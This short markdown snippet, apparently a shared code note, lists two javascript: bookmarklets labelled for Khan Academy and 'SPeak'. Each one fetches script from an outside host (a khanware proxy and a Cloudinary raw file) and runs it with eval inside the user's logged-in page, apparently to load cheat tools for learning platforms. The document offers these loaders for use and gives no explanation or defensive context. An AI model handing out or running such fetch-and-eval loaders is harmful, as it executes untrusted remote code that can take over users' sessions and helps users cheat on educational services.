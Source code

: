 # Codigo

Khan cacademy

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

SPeak
 javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))



